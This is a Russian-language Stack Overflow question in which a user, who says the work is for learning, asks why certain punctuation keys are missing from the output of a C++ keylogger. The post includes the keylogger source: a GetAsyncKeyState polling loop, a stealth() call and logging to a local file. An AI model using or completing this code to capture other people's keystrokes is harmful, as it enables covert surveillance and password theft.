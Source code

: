 ﻿---
title: "Virtual-key codes, в файл не записываются несколько клавиш"
se.owner.user_id: 332316
se.owner.display_name: "Hellios"
se.owner.link: "https://ru.stackoverflow.com/users/332316/hellios"
se.link: "https://ru.stackoverflow.com/questions/963904/virtual-key-codes-%d0%b2-%d1%84%d0%b0%d0%b9%d0%bb-%d0%bd%d0%b5-%d0%b7%d0%b0%d0%bf%d0%b8%d1%81%d1%8b%d0%b2%d0%b0%d1%8e%d1%82%d1%81%d1%8f-%d0%bd%d0%b5%d1%81%d0%ba%d0%be%d0%bb%d1%8c%d0%ba%d0%be-%d0%ba%d0%bb%d0%b0%d0%b2%d0%b8%d1%88"
se.question_id: 963904
se.post_type: question
se.score: 1
---
<p>Пишу кейлоггер (в познавательных целях). Использую GetAsyncKeyState и коды клавиш. Пока использую английскую раскладку. Все клавиши записываются нормально, кроме тех, которые на скрине. Т.е. после запуска проги и жмакания по ним в текстовик ничего не записывается, но с остальными клавишами таких проблем нет. Собсна, почему так происходит? Коды не соответствуют?(проверял много раз)</p>

<pre><code>#include "pch.h"
#include &lt;iostream&gt;
#include &lt;windows.h&gt;
#include &lt;fstream&gt;
#include &lt;string&gt;


using namespace std;

bool is_capslock = false;
int BackSp = 0;

int save(int key)
{
    ofstream out_file;
    out_file.open("logs.txt", ios_base::app);
    string Logs = "";


    switch (key)
    {
    case 189:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "_";
        }
        else
            Logs += "-";
        break;
    case 187:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "+";
        }
        else
            Logs += "=";
        break;
    case 219:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "{";
        }
        else
            Logs += "[";
        break;
    case 221:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "}";
        }
        else
            Logs += "]";
        break;
    case 186:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += ":";
        }
        else
            Logs += ";";
        break;
    case 222:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "\"";
        }
        else
            Logs += "'";
        break;
    case 220:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "|";
        }
        else
            Logs += "\\";
        break;
    case 188:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "&lt;";
        }
        else
            Logs += ",";
        break;
    case 190:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "&gt;";
        }
        else
            Logs += ".";
        break;
    case 191:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "?";
        }
        else
            Logs += "/";
        break;
    default:
        break;
    }

    out_file &lt;&lt; Logs;
    out_file.close();
    return 0;
}

int main(int argc, char * argv[])
{
    //autorun();
    stealth();

    char buffer[MAX_PATH];
    GetModuleFileNameA(NULL, buffer, MAX_PATH);

    char i;
    while (1)
    {
        for (i = 8; i &lt;= 190; i++)
        {
            if (GetAsyncKeyState(i) == -32767)
                save(i);
        }
    }
    return(0);
}
</code></pre>

<p><a href="https://i.stack.imgur.com/sX0ny.png" rel="nofollow noreferrer"><img src="https://i.stack.imgur.com/sX0ny.png" alt="скрин"></a></p>
